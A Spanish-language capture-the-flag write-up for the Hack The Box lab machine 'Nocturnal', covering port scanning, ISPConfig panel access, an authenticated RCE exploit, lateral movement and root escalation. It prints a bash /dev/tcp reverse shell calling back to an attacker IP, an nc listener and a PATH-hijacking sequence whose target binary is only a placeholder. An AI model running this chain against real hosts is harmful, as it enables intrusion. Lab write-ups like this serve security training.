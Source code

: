 # 💤 Nocturnal – Hack The Box

![HTB Logo](img/htb_logo.png)

## Información
- **Dificultad:** Medium 🟠
- **Sistema Operativo:** Linux 🐧
- **Categoría:** Web / Privilege Escalation

---

## 📑 Tabla de Contenido
- [Reconocimiento](#1-reconocimiento)
- [Enumeración Web](#2-enumeración-web)
- [Acceso a ISPConfig](#3-acceso-al-panel-ispconfig)
- [Explotación](#4-explotación-ispconfig)
- [Reverse Shell](#5-reverse-shell)
- [Movimiento lateral](#6-movimiento-lateral)
- [Escalada de privilegios](#7-escalada-de-privilegios)
- [Flags](#8-flags)
- [Resumen Final](#-resumen-final)

---

## 1. Reconocimiento

### Escaneo de puertos
```bash
nmap -p- --min-rate 5000 -sS -vvv -n -Pn 10.10.11.64 -oN ports
```
![Nmap Scan](img/nmap.png)

Puertos encontrados:
- **22/tcp** – OpenSSH  
- **80/tcp** – Apache / página web  
- **8080/tcp** – ISPConfig panel  

### Escaneo de servicios
```bash
nmap -sCV -p22,80,8080 10.10.11.64 -oN services
```

---

## 2. Enumeración Web

En el puerto 80 hay referencias a `nocturnal.htb`.  
Agregamos al `/etc/hosts`:

```
10.10.11.64 nocturnal.htb
```

El fuzzing muestra que el panel de **ISPConfig** corre en el puerto 8080.

---

## 3. Acceso al panel ISPConfig

Hacemos un túnel SSH:
```bash
ssh -N -L 18080:127.0.0.1:8080 tobias@10.10.11.64
```

Accedemos en:  
`http://127.0.0.1:18080/`

Credenciales válidas:
```
admin : slowmotionapocalypse
```

![ISPConfig Login](img/ispconfig_login.png)

---

## 4. Explotación ISPConfig

Usamos un exploit público de **ISPConfig Authenticated RCE**:

```bash
python3 exploit.py http://127.0.0.1:18080 admin slowmotionapocalypse
```

Esto inyecta un webshell → acceso como **www-data**.

![Shell Exploit](img/shell_wwwdata.png)

---

## 5. Reverse Shell

Payload ejecutado:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.237/9001 0>&1'
```

En el atacante:
```bash
nc -lvnp 9001
```

Conexión establecida ✔

![Reverse Shell](img/rev_shell.png)

---

## 6. Movimiento lateral

- Enumerando archivos → encontramos credenciales de **tobias**.  
- Acceso con `su tobias`.  
- Leemos **user.txt** ✅

![User Flag](img/user_flag.png)

---

## 7. Escalada de privilegios

- Con `linpeas` encontramos un binario/script con permisos inseguros.  
- Aprovechamos la mala configuración para obtener root.  

Ejemplo (PATH hijacking):
```bash
echo "/bin/bash" > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
sudo /usr/bin/some_vuln_bin
```

Ahora somos **root**.  

![Root Shell](img/root_shell.png)
![Root Flag](img/root_flag.png)

---

## 8. Flags
- **User:** `xxxxxxxxxxxxxxxxxxxxxxxx`
- **Root:** `xxxxxxxxxxxxxxxxxxxxxxxx`

---

## 🔗 Resumen Final

Cadena de ataque:

```
Nmap → ISPConfig panel → Creds admin
   → Exploit RCE → www-data
   → Tobias → PrivEsc → Root
```

![Attack Chain](img/attack_chain.png)

---

✍️ Writeup realizado por JC  
